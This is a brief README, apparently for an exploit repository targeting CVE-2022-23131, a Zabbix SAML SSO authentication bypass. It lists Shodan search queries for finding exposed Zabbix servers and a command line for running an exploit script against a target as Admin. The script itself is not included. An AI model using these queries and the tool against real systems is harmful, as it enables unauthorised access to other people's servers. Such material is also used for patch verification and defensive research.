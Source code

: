# CVE-2022-23131
Zabbix - SAML SSO Authentication Bypass
- Shodan dork:
```
title:zabbix
```
```
http.favicon.hash:892542951
```
- Usage
```
python3 zabbix_session_exp.py -t https:target.com -u Admin
```

